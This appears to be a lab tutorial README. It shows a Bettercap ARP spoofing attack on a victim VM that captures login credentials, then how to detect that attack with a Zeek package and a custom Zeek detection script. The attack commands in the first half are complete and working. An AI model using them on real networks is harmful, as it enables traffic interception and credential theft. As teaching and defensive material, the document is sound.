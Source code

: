 ## Simulate ARP Spoofing from Attacker VM

###  Step 1: Start Bettercap

```bash
sudo bettercap -iface eth0
```

### Step 2: Scan the Network
Enable network probing and view discovered devices:

```bash
net.probe on
net.show
```
 Find your victim's IP.

![image](https://github.com/user-attachments/assets/81d5af34-6d09-4352-8fad-9af63f8a84ec)

victim ip 10.0.2.15

### Step 3: Launch ARP Spoof Attack
 Target the victim:

```bash
set arp.spoof.targets 10.0.2.15
```
Start ARP spoofing:

```bash
arp.spoof on
```

![image](https://github.com/user-attachments/assets/50404c75-811c-4513-93c6-f27bb70af2b9)

### Step 4: Sniff Victim’s Traffic
Enable network sniffing:

```
net.sniff on
```
On the victim system, open a browser and log into any web app (e.g., a vulnerable local site).
Captured requests will be visible in Bettercap:

![image](https://github.com/user-attachments/assets/d1fd7330-d4ba-47e0-a155-f64e19d7c771)

![image](https://github.com/user-attachments/assets/e50dadd4-19d1-4b9b-97bf-1446d96440af)

Bettercap displaying credentials:

![image](https://github.com/user-attachments/assets/fc0be8dd-59fb-43fd-910f-cac74b4c2311)

arp spoofing attcked worked

### Detect ARP Spoofing using Zeek

## 📦 Installing an ARP Detection Package in Zeek

This section shows how to install and enable an ARP detection package (e.g., **zeek-arp**) using the Zeek Package Manager (`zkg`).

---

### 🔹 Step 1: Verify `zkg` is Installed

```bash
zkg version
```
If the command reports “not found”, install it:

```bash
pip install zkg
```

 Step 2: Install the ARP Package

Install the popular ARP detection package from GitHub:

```bash
zkg install zeek/zeek-arp
```
If the above fails, use the full URL:

```bash
zkg install https://github.com/J-Gras/zeek-arp
This downloads the package into your Zeek plugins folder.
```

Step 3: Enable the Package in Your Zeek Policy
Open your local Zeek configuration file — typically:

```bash
nano /opt/zeek/share/zeek/site/local.zeek
```
Add this line to load the ARP package:

```zeek
@load packages/zeek-arp
```
![image](https://github.com/user-attachments/assets/f8f4ae9c-44dc-4223-b78f-a2c1653157c6)


Save and close the file.
 Step 4: Deploy/Restart Zeek
Apply your updated configuration:

```
bash
cd /opt/zeek/bin
sudo ./zeekctl deploy
```

This restarts Zeek and loads the new ARP detection logic.

Now we need a script for detecting ARP spoofing.

we cretaing a new script.

```bash
nano /opt/zeek/share/zeek/site/arp-spoof-detect.zeek 
```

paste the scrript there to dectect arp spoofing.


```zeek
export {
    redef enum Notice::Type += {
        ARP_Spoofing
    };
}

global seen_arp: table[addr] of set[string];

event arp_reply(mac_src: string, mac_dst: string, spa: addr, sha: string, tpa: addr, tha: string)
{
    if (spa !in seen_arp)
        seen_arp[spa] = set();

    if (sha !in seen_arp[spa])
    {
        if (|seen_arp[spa]| > 0)
        {
            print fmt(" ARP Spoofing Detected! IP %s now has MAC %s (previous: %s)", spa, sha, seen_arp[spa]);
            NOTICE([
                $note=ARP_Spoofing,
                $msg=fmt("ARP spoofing detected: %s is now %s", spa, sha),
                $sub=fmt("Old MACs: %s", seen_arp[spa])
            ]);
        }
        add seen_arp[spa][sha];
    }
}
```

Open your local Zeek configuration file — typically:

```bash
nano /opt/zeek/share/zeek/site/local.zeek
```
Add this line to load the ARP package:

```zeek
@load ./arp-spoof-detect
```

![image](https://github.com/user-attachments/assets/88553d18-5e2c-4967-a850-ce817626c8ab)

 Deploy/Restart Zeek
Apply your updated configuration:

```
bash
cd /opt/zeek/bin
sudo ./zeekctl deploy
```

This restarts Zeek and loads the new ARP detection logic Scrpit .

now after some time we will able to see notice.log file in current .
enter as root user  `sudo su`

```
cd /opt/zeek/logs/current
```

![image](https://github.com/user-attachments/assets/f5388667-b0db-43dd-8e29-c94027227c35)


Tail the file to monitor live, then perform the attack.We can see that arp spoofing as dectected.

```
tail -f notice.log
```

![image](https://github.com/user-attachments/assets/e910a6cd-2dcc-42ce-a973-59a964dfbd89)

